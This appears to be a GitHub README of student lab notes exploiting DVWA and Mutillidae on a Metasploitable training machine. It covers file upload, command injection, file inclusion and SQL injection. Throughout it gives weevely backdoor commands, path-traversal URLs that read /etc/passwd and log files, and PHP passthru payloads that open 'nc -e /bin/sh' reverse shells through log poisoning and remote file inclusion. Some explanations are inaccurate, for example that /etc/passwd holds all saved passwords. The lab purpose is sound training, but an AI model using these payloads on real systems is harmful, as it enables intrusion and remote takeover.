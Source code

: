 # basic vulnerabilities in Metasploitable
## File Upload Vulnerability
- weevely is a tool used for opening the backdoors and to access the website.
```
weevely generate 123456 /root/shell.php
```
- this creates a php file which is used to upload and open backdoors
- after uploading, run the following command
- `weevely (respective url) 123456`
- now from the terminal we can open the backdoor that is  `cd ..` to get back and then we can access as we want.
- burpsuite is used to interpt the website being executed with the help of proxy.

> __low__ - any file can be uploaded i.e., shell.php
>![Screenshot 2024-04-12 223232](https://github.com/stellados53/kali_commands/assets/142677726/dbc0885c-2112-4832-989f-a6c8dba0eb44)
> 
> __medium__ - we rename the file from shell.php to shell.jepg i.e., shell.jpeg and upload it using bruiteforce by changing the filename to php.
>![Screenshot 2024-04-12 224041](https://github.com/stellados53/kali_commands/assets/142677726/9d3a9640-817f-446f-91cc-f09b4c5d2baf)
> 
> __high__ - we change the file type to shell.php.jpeg and upload and then expoit.
> ![Screenshot 2024-04-12 224407](https://github.com/stellados53/kali_commands/assets/142677726/e202b0e8-1ee3-44e0-8f28-a04c6d404255)
- overall output will be..
 ![Screenshot 2024-04-12 224454](https://github.com/stellados53/kali_commands/assets/142677726/5c02d3fb-e53e-4ed3-85c7-477390b703c7)


<h3 align="center"> ... </h3> 

## Code Execution Vulnerability

- open any searchable website (dvwa- command execution)
- run the following command
```
nc -vv -l -p 8080
```
![Screenshot 2024-04-09 232801](https://github.com/stellados53/kali_commands/assets/142677726/7d1cc4d5-5310-4934-84ba-2c44d0124a0e)

> nc   = netcat tool this is used to use and connect the computer to the website.
> 
> -vv  = it is just a verbose mode, which retireve more output.
> 
> -l   = Listen mode, used to create a server that listens for incoming connections.
> 
> -p   = Specifies the source port number.
> 
> 8080 = port number.
- Now you can execute any command of kali linux such as pwd, ls -la.
- the execution will be done.

> __low__ - in searchbox END WITH ";" AND RUN THE COMMAND ACCORDING TO THE WEBSITE OS.MOST IMPORTANT IF THE IP IS 192.168.11.129, SUBTRACT THE LAST NUMBER -1 THAT IS 192.168.11.128.
>
> __medium__ - it cannot run two commands using ";" so we use "|" for the exploit.
>![Screenshot 2024-04-12 223232](https://github.com/stellados53/kali_commands/assets/142677726/d22e5048-15cd-491b-817f-f2a79979e8d3)
>
> __high__ is not even possible

<h3 align="center"> ... </h3> 

## File Inclusion Vulnerability
- it allows you to read  any file in the same server.
- access files outside www directory.
- it is used to get the reverse connection of the webserver.
- generally to get the commands to be executed in the kali linux we use  `cat etc/passwd`, the same we use in the file url to extract all the saved passwds.
```
http://192.168.11.129/dvwa/vulnerabilities/fi/?page=/../../../../../etc/passwd
```
- by using this command we can get the all saved passwords saved in the webserver.
- ![Screenshot 2024-04-12 222928](https://github.com/stellados53/kali_commands/assets/142677726/615af2ec-4ac3-4ca6-a33b-28a323ed794a)
- by modifing the useragent from mozilla to `<?phpinfo();?>` using bruiteforce proxy(header)..we get the php information about the website
- ![image](https://github.com/stellados53/vulnerabilities-Metasploitable-/assets/142677726/faab1ae4-f1dc-4578-9098-b2995c78dc04)
- by modifing the useragent to `<?passthru("nc -e /bin/sh 192.168.11.128 8888");?>` in the bruiteforce header for the connect of the website..and the terminal of kali linux `nc -vv -l -p 8888` to make connection.
- ![image](https://github.com/stellados53/vulnerabilities-Metasploitable-/assets/142677726/26b2674a-e047-4c5f-8f72-bc938ca5ed35)
### Methods Of Exploitation
- Now as reference from the above use the another executable urls.
 ```
http://192.168.11.129/dvwa/vulnerabilities/fi/?page=/../../../../..//proc/self/environ
```
```
http://192.168.11.129/dvwa/vulnerabilities/fi/?page=/../../../../../var/log/auth.log
```
```
http://192.168.11.129/dvwa/vulnerabilities/fi/?page=/../../../../../var/log/apache2/access.log
```
- In `proc/self/environ`..it retrieves the information about the client information.
> ![Screenshot 2024-04-12 231736](https://github.com/stellados53/kali_commands/assets/142677726/ab250e34-700e-49c3-bcb9-500b88edd38c)
>
- In `var/log/auth.log`..it retrieves all the login attempts to the webserver.
- In the split the terminal into 2 the one contains the the connection command that is `nc -vv -l -p 8888` and the other will be `ssh "<?passthru('nc -e /bin/sh 192.168.11.128 8888');?>@192.168.11.128`
- But the passthru command contain spaces that is between nc and -e etc..so we use decoder from the bruiteforce to encode the command as base64 to get a non-indent space line
> ![image](https://github.com/stellados53/vulnerabilities-Metasploitable-/assets/142677726/a13b5290-c212-4249-9e31-a40e1a2b3914)
> 
- now..run the command as per the image.
> ![image](https://github.com/stellados53/vulnerabilities-Metasploitable-/assets/142677726/b7b7144e-e541-40ee-85f1-86ca80ac5fae)
> 
- then we get the final reverse connection to the webserver..
> ![image](https://github.com/stellados53/vulnerabilities-Metasploitable-/assets/142677726/5ce2bbdf-bd7f-407f-9bbb-7945b1662342)

<h3 align="center"> ... </h3> 

## Remote File Inclusion Vulnerability

- Similar to local file inclusion.
- But allows an attacker read ANY file from ANY server.
- Execute php files from other servers on the current server.
- Store php files on other servers as .txt

- Firstly we should go the the metaspoitable manchine and run.
```
sudo nano /etc/php5/cgi/php.ini
```
- This allows the url for the remote file inclusion.
- ![image](https://github.com/stellados53/vulnerabilities-Metasploitable-/assets/142677726/2a55caff-d69e-43ee-8980-258d3d95ddef)
- Now run `ctrl+W` this allows you to search any line in the output.
- Now run `allow_url` this searches the allow_urlf as mentioned in the above image.
- Make sure that they both are ON, if not change it and run `ctrl+X` then `Y`.
- Then to save the location `ctrl+T` then select `php.ini`.
- Then click enter.
- Now we have to restart the webserver so that the changes work properly. Run the command.
```
sudo /etc/init.d/apache2 restart
```
- ![image](https://github.com/stellados53/vulnerabilities-Metasploitable-/assets/142677726/a815f59d-b4a3-4b53-aa9b-41bc7fdaf015)
- FINISHED!!
- Now open the kali linux and create a file. that should contain the following content
```
<?php
passthru("nc -e /bin/sh 8080");
?>
```
![image](https://github.com/stellados53/vulnerabilities-Metasploitable-/assets/142677726/e3e8e25e-d396-4110-a989-0c7383164e5d)
- now save the file in the `/var/www/html/` location.
- open terminal and DVWA website set it as low and open file inclusion.
- make sure that the apache2 is already installed. To check the status run..`sudo service apache2 status`. make sure that the they __active(running)__ and __enabled__.
- ![image](https://github.com/stellados53/vulnerabilities-Metasploitable-/assets/142677726/2b7f42f2-0d66-4535-a411-4ac3de4f7b4c)
- If not, To start the apache2 server run the command `sudo service apache2 start`.
- Now open the webbrowser and try to access the file in webbrowser.
- ![image](https://github.com/stellados53/vulnerabilities-Metasploitable-/assets/142677726/f16a0ddb-eeac-4750-981f-0170a66348e0)

> __Security at LOW:__
> 
> now copy the url and paste it from the `?page=`..remove`include.php`. and add a `?`..this looks like..
> ![image](https://github.com/stellados53/vulnerabilities-Metasploitable-/assets/142677726/8edf1c00-e4ca-4e74-afea-dfff1cdf1dc7)
> now open the terminal and run `nc -vv -l -p 8080` to recieve the reverse connection.
> as we click enter in the webbrowser. this makes the connection in the command terminal with the webbrowser.
> ![Screenshot 2024-04-20 162650](https://github.com/stellados53/vulnerabilities-Metasploitable-/assets/142677726/edebbc23-9355-4bfa-97a2-c8335a10cc3c)
>
> __Security at MEDIUM__:
>
> the process is as same as the LOW SECURITY..but as there is a `http://` in the middle of the URL...
> So rename intead of `tt` in the `http://` rename it as `TT` i.e., `https://`.
> ![image](https://github.com/stellados53/vulnerabilities-Metasploitable-/assets/142677726/30ead58e-eb9b-482f-bf51-2bbb7e7c5968)
>
> __Security at HIGH__: the expoit is impossible because it retrieves only `include.php` page.cannot access another files it, so it is difficult to exploit them.
>
> 

<h3 align="center"> ... </h3> 

## SQL Injection Vulnerability

- to open run the mutillidae make sure that the setting is done in metaspoitable machine.
```
https://www.youtube.com/watch?v=tYmDiz0SPaw&feature=youtu.be
```
- now register your account in the mutillidae and the logout again. hence it creates a account for and use that account to expoit the sql injection.
- now logout and to break the page we should use `'and'`,`'order by'` or `'`
- now at the admin page type your username and at the password keep `'` and try to login it retrives as shown in the image
- ![image](https://github.com/stellados53/vulnerabilities-Metasploitable-/assets/142677726/a2799618-c66e-481a-af55-a292f9228402)
- If we get this page it is very easy to do sql injection.
- And now again logout. and keep the following notepad
- ![image](https://github.com/stellados53/vulnerabilities-Metasploitable-/assets/142677726/a2ec20c7-88cd-485f-be71-99f1c763629c)
- this is basically called blackbox testing. there will be no code to be executed or URLs to be editing.
- 
- 


